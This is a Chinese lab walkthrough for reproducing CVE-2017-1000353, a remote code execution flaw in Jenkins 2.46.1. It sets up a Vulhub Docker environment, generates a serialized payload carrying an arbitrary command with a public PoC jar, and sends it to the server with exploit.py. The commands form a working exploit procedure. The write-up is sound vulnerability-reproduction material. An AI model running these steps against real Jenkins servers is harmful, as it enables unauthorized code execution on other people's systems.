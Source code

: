 # Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

Vulhub执行如下命令启动jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 漏洞复现

### 步骤一、生成序列化字符串

参考https://github.com/vulhub/CVE-2017-1000353，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![img](images/1-168180280232532.png)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![img](images/2-168180280232533.png)